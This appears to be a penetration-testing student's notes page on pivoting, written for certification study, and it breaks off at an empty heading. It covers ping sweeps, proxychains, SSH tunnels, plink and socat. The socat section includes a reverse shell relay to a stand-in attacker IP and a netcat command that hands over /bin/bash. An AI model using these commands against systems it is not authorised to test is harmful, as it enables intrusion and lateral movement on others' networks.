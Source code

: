 ```yaml
---
title: Pivoting Notes
date: 2021-09-24
categories:
  - Notes
tags:
  - EJPT
  - Notes
  - Pivoting
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
---
```


<h2 id="pivoting">Pivoting</h2>
<h3>Bash Simple Ping sweep</h3>
<code>for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done</code>
<h3>Bash Simple portscan</h3>
<code>for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done</code>
<h3>Proxy tools</h3>
<h4>Proxychains</h4>
<p>example to proxy a netcat</p>
<code>proxychains nc 172.16.0.10 23</code>
<p>notes:</p>
  <ul>
    <li>when using nmap w/ proxychains comment out proxy_dns inside the proxychains.conf file</li>
    <li>only tcp scan will work</li>
    <li>udp, syn and ping scan wont work - use -Pn</li>
  </ul>
<h4>Foxyproxy</h4>
<p>proxy for routing browser traffic</p>
<h3>SSH Tunneling / Port Forwarding</h3>
<h4>Port Forwarding - Local: From attacker to victim via SSH</h4>
<p>Attacker --ssh--> 172.16.0.5 --http--> 172.16.0.10</p>
<code>ssh -L 8000:172.16.0.10:80 user@172.16.0.5 -fN</code>
  <ul>
    <li>-f = backgrounds shell immediately</li>
    <li>-N = tells SSH that it doesn;t need to execute any commands - and just set up the connection</li>
  </ul>
<p>Now we can access the webserver on 172.16.0.10 using our own box localhost:8000</p>
<h5>Proxies</h5>
<code>ssh -D 1337 user@172.16.0.5 -fN</code>
<p>Will open port 1337 on attacker's machine as a proxy to send data through the 172.16.0.5 network - useful when combined with proxy chains -  just make sure proxy chains conf is configured correctly</p>
<h4>Reverse Connection</h4>
<p>used when we got a shell in the victim's machine but no SSH access</p>

<li>Generate ssh key - add pub to our attacker's authorized keys - add the following lines at the beginning of the pub key to prevent reverse shell and only allow port forwarding</li>
<code>command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty</code>
<code>ssh -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -fN</code>
<p>we have a shell on victim(.05) and we want to use it as a reverse connection from our machine(.20) to webseserver victim(.10)</p>
<h4>Plink.exe for Windows</h4>
<p>Command line version of PuTTY SSH Client</p>
<p>reverse connection from victim to our attacker</p>
<code>cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N</code>
<p>.20 -  attacker | .05 victim that we have a shell from | .10 another victim</p>
<p>for the keyfile we need to convert it using puttygen tool</p>
<code>puttygen KEYFILE -o OUTPUT_KEY.ppk</code>
<h4>Socat</h4>
<p>Static Binaries for Socat</p>
<a href="https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat">Socat for Linux | </a>
<a href="https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download">Socat for Windows</a>
<p>Watch IPPSEC do hackthebox - worker</p>

<p>Reverse Shell Relay</p>
<code>./socat tcp-l:8000 tcp:ATTACKING_IP:443 &</code>
<ul>
  <li>tcp-l:8000 = used to create the first half of the connection -- ipv4 listener on tcp port 8000 of the victim</li>
  <li>tcp:attacking_ip:443 = connects back to our local IP on port 443</li>
  <li>& =  backgrounds the listener</li>
</ul>
<p>this will connect back to our machine so we need to setup a netcat listener</p>
<code>./nc-hyst 127.0.0.1 8000 -e /bin/bash</code>
<p>Port Forwarding using Socat</p>
<code>./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &</code>


<h2>Reverse SSH tunnel</h2>
<p> victim local port 127.0.0.1:8080? use this</p>
<code>ssh -L 4444:10.10.125.232:8080</code>
<li>4444 port of victim you will access from outside</li>
<li>10.10.125.232 victim ip</li>
<li>8080 local port you want to access inside the victim</li>

<h2>remote port forwarding</h2>
<p>attacking machine</p>